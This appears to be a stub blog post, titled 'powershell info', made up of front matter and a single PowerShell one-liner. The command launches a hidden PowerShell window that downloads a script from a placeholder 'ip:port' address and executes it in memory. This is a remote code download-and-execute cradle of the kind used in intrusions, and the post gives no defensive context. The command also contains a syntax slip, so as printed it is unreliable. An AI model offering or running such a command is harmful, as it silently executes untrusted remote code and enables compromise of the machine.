 ```yaml
---
layout: post
title: "Lillian Warner, powershell info"
date: 2017-06-23
---
```

something like:
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient),downloadstring('http://ip:port/file'))"
